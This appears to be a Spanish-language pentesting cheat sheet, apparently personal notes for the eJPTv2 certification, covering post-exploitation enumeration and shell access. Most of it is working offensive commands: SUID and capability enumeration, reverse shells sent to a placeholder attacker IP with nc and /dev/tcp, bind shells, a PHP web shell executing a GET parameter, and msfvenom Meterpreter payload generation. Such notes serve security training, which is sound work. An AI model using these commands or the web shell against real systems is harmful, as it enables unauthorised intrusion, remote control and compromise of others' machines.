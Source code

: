 ```yaml
---

---
```


------

## Enumeración una vez ganamos acceso para elevar privilegios

> Webs

- [GtfObins](https://gtfobins.github.io/)
- [HAcktricks](https://book.hacktricks.wiki/en/index.html)
- [IA - Hacktrics](https://www.hacktricks.ai/)


> Tools
-  [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [PSPY](https://github.com/DominicBreuker/pspy)

> Commands Para **SUID** para **SGID**
```bash
SGID
find / -perm -4000 -o -perm -2000 -exec ls -ld {} \; 2>/dev/null
SUID
find -perm -4000 -ls 2>/dev/null
AMBOS
ls -alh /path/to/check | grep 's'
``` 
> Commands para ver capabilities
> Podemos ver ciertas tareas privilegiadas con el user actual

```bash
getcap -r / 2>/dev/null
```

>Ver que tarea se ejecuta

- [PSPY](https://github.com/DominicBreuker/pspy)

```bash
systemctl list-timers
```

>Ver que comando se  ejecuta  y que usuarios lo ejecutan

```bash
ps -eo command
ps -eo user command
```

- Script --> [**currentcommand.sh**](D:\Training\eJPTv2\Payloads\currentcommandSystem.sh)
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm: exit 1 #Recuperar cursor
}

# Habilitar Ctrl+c
trap ctrl_c SIGINT

old_process=$(ps -eo user,command)

tput civis # Ocultar cursor

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|kworker|procmon"
	old_process=$new_process
done
```
## Netcat - nc (también tenemos ncat, n.traditional)

> -e --> **esta flag coge el archivo a utilizar**

> -nvlp --> escucho a una IP, en modo verbose, a la escucha, por el puerto que le especifique

## Reverse shells

- [RevShell](https://www.revshells.com/)
- [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

>En este caso mando una shell y me pongo a la escucha desde la ip atacante

 - **Desde máquina víctima**

```bash
 nc -e /bin/bash ip_atacante 8080
 bash -i >& /dev/tcp/ip_atacante/port 0>&1
```

- **Desde máquina atacante**
```bash
rlwrap nc -nvlp 8080
```

- **Una vez estemos dentro**
```bash
script /dev/null -c bash
```


## Bind shell

> En este caso me pongo en esucha desde la víctima con una shell y desde mi consola me conecto
- **Desde máquina víctima**

```bash
nc -nvlp 4646 -e/bin/bash
```

- Desde máquina atacante
```bash
rlwrap nc ip_víctima 4646
```

## Forward Shell

> En este caso se bloquea el tráfico saliente  por lo que usaremos temo files para conseguir leer el output en otro archivo 

```bash
nano cmd.php
```

```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

- Así consulto comandos en la web
http://192.168.1.135/cmd.php?cmd=whoami


- **Pero en este caso queremos una shell interactiva que nos han capado**

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```




>Debemos ejecutar una revshell por el puerto 443
```bash
nc -e /bin/bash ip_atacante 443
```

>****Manda archivos temporales con la salida del comando ejecutado a nuetsrro PC, dejándolos en memoria e la máquina víctima y eliminando cualquier rastro****
	
[tty_over_http.py](https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py)

- **Simplemente ejecuto** `python3 tty_over_http.py` **y he ganado acceso sin necesidad de mandar una shell desde la víctima**
```bash
script /dev/null -c bash
```
## Payloads

#DiferenciasDePayloads

>La diferencia es la forma en que se envían por detrás, a la hora de utilizarlo no notaremos nada.
### Staged Payloads

- Se envía en diferentes fases
- Detección más difícil
- Mucho más pequeño

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -- platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```
### Non-Staged Payloads

- Se envía de una sóla vez
- Es más grande

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
```

> **Sin Metasploit**

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

```bash
rlwrap nc -nvlp port_ataque
```